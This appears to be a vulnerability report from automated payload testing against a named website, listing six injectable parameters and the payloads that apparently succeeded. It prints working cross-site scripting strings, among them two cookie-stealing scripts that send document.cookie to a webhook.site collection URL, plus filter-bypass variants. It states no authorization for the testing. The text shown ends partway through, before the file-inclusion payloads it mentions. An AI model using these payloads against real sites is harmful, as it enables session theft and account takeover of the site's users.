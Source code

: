 # Comprehensive Vulnerability Report - pakyok77.link

## Executive Summary
The advanced payload testing has revealed **102 successful tests out of 168 total tests**, indicating multiple critical vulnerabilities across various endpoints. The website is vulnerable to both Cross-Site Scripting (XSS) and Local File Inclusion (LFI) attacks.

## Test Results Overview
- **Total Tests**: 168
- **Successful Tests**: 102 (60.7% success rate)
- **XSS Payloads Tested**: 13 different variations
- **LFI Payloads Tested**: 15 different variations
- **Endpoints Tested**: 6 different parameters

## Critical Vulnerabilities Discovered

### 1. Cross-Site Scripting (XSS) Vulnerabilities

#### Vulnerable Endpoints
- `/index.php?page=`
- `/index.php?file=`
- `/index.php?path=`
- `/index.php?include=`
- `/page.php?page=`
- `/file.php?file=`

#### Successful XSS Payloads
1. **Cookie Stealing Scripts**:
   ```javascript
   <script>fetch('https://webhook.site/128fa6c2-fe85-4a6c-b522-0346f6aae885?cookie='+document.cookie)</script>
   <script>var a='https://webhook.site/128fa6c2-fe85-4a6c-b522-0346f6aae885';document.location=a+'/?c='+encodeURIComponent(document.cookie);</script>
   ```

2. **Event Handler XSS**:
   ```html
   <img src=x onerror=alert('XSS')>
   <svg onload=alert('XSS')>
   <body onload=alert('XSS')>
   <input onfocus=alert('XSS') autofocus>
   ```

3. **Filter Bypass Techniques**:
   ```html
   <ScRiPt>alert('XSS')</ScRiPt>
   <script>alert(String.fromCharCode(88,83,83))</script>
   <script>eval('al'+'ert("XSS")')</script>
   ```
